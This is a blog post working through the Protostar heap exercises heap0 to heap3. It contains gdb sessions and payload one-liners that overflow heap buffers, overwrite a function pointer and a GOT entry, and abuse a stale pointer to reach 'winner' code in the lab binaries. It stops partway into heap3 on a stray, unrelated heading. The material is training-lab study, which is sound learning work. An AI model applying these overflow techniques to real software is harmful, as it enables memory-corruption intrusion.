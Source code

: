 ```yaml
---
layout: post
title:  "Protostar Exploit Exercises: Heap challenges"
---
```


Welcome back y'all.

For those of you who are just joining us, we're currently in the
process of honing our binary hacking-skills. I recently completed the
formatting challenges in the same set of exercises gracefully provided
by exploit-exercises.com (which you can read about in my previous posts.)

I am writing these posts out of a personal interest in improving my
own skills and accomplishing something tangible in regards to
computer security; Something I can point to, and maybe even take some
pride in - However basic these challenges might be.

Enough talking, lets 'sploit some executables.

## [heap0](https://exploit-exercises.com/protostar/heap0)

* * * 

>### About
>
>This level introduces heap overflows and how they can influence code flow.

The code provided lays out a simple C-program which uses `malloc` to
allocate some memory for a couple of structures. The `f` structure is
(presumably) allocated right next to the `data`-structure on the heap.

A call to the function `strcpy`, which copies user-supplied
 data into the only member of the `data` structure without
any bounds-checking sets up a buffer overflow, for us to take advantage of.

### Crashing the process

Giving the program more than 63 `A`s will begin to overwrite any value
stored on the heap. And the function-pointer located right next to the
char-array will be overwritten, causing it to point to an invalid (in
the case below, `0x41414141`) location in memory.

~~~
$ /opt/protostar/bin/heap0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
data is at 0x804a008, fp is at 0x804a050
Segmentation fault
~~~

### Redirecting execution

We start poking around the binary to find out where `winner` is located.

~~~
$ # Finding the address (left-most column) of the winner-function by running objdump -t
$ objdump -t /opt/protostar/bin/heap0 | grep -e " winner"
08048464 g	F	.text	00000014		winner
~~~

Now that we know what to overwrite the function-pointer with, we craft
our input with the help of python to gracefully complete this
challenge.

Note that we gave the program 72 bytes of garbage, because the two
variables are not located right next to eachother on the heap. I'm
guessing that this has to do with some padding or alignment
implemented by the standard library.

~~~
$ /opt/protostar/bin/heap0 `print -c "print 'A'*72+'\x64\x84\x04\x08'"`
data is located at 0x804a008, fp is at 0x804a050
level passed
~~~

## [heap1](https://exploit-exercises.com/protostar/heap1)

* * * 

>### About
>
>This level takes a look at code flow hijacking in data overwrite cases.

I have no idea how to go about exploiting this.

Let's channel our inner Ivan Drago and break stuff & hopefully we might learn something along the way.

Feeding the program a bunch of garbage makes the program crash
in `__GI_strcpy`

~~~
(gdb) start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
(gdb) c
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x41414141 <Address 0x41414141 out of bounds>, 
    src=0xbffffe7c 'B' <repeats 56 times>) at strcpy.c:40
(gdb) x/i $eip
0xb7f09df4 <*__GI_strcpy+20>:	mov    BYTE PTR [esi+edx*1+0x1],cl
(gdb) i r esi edx
esi            0x41414140	1094795584
edx            0x0	0
~~~

I noticed that up to around 20 `A`s are no problem for the program to
handle. Around 20+ is where things get wierd, the destination-address
provided to `strcpy` is being overwritten somehow. 

~~~
(gdb) run `python -c "print('A'*20+'\x11\xef\xcd\xab'+' a')"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 `python -c "print('A'*20+'\x11\xef\xcd\xab'+' a')"`

Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0xabcdef11 <Address 0xabcdef11 out of bounds>, 
    src=0xbffffeb3 "a") at strcpy.c:40
40	strcpy.c: No such file or directory.
	in strcpy.c
(gdb) 
~~~

Building upon previous knowledge, as gained in my previous post on the
formatting-challenges; What if we overwrite a address located in the
global-offset table using the bug above?

The puts-function (printf in the source-code) in main can be
overwritten, as it's the only function left to be called after strcpy
returns.

~~~
(gdb) shell objdump -TR /opt/protostar/bin/heap1

/opt/protostar/bin/heap1:     file format elf32-i386
...
08049774 R_386_JUMP_SLOT   puts
~~~

Winner is located at `0x08048494`.

And, putting it all together.

~~~
(gdb) run `python -c "print('A'*20+'\x74\x97\x04\x08'+' \x94\x84\x04\x08')"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap1 `python -c "print('A'*20+'\x74\x97\x04\x08'+' \x94\x84\x04\x08')"`
and we have a winner @ 1454508194
~~~

![Billy boy]({{ site-url }}/assets/post_images/heap1_success.jpg)

### Lots to learn

My understanding on heap overflowing exploatation is limited. I've
skimmed through [this article](http://phrack.org/issues/57/9.html#article) 
but I need time to digest its entrails.

Initially I was totally clueless on how this would even be possible;
But somewhere along the way on trying to find out how heap-exploits
work under the hood, I figured I should atleast try to do it,
regardless of any understanding. I stopped reading and started trying.

It's a good feeling. Not having to explicitly know how every nook and
cranny in memory exploatation works, some more general skills might
apply.

I'm still trying to wrap my head around heap-exploits though.

## [heap2](https://exploit-exercises.com/protostar/heap2)

* * * 

>About
>
>This level examines what can happen when heap pointers are stale.
>
>This level is completed when you see the “you have logged in already!” message

~~~
$ /opt/protostar/bin/heap2
[ auth = (nil), service = (nil) ]
auth 0
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
service 00000000000000000000000000000000000000000000000000000
[ auth = 0x804c008, service = 0x804c018 ]
login
you have logged in already!
~~~

Freeing a malloc-allocated pointer without setting the pointer
to NULL leads to stuff like this. Not sure if I'm solving this
level the 'right' way.

## [heap3](https://exploit-exercises.com/protostar/heap3)

* * *

>About
>
>This level introduces the Doug Lea Malloc (dlmalloc) and how
>heap meta data can be modified to change program execution.

Reading [this article](http://phrack.org/issues/57/8.html#article) on
how the heap is managed. 

--[ 4 - Exploiting the Sudo vulnerability ]-----------------------------
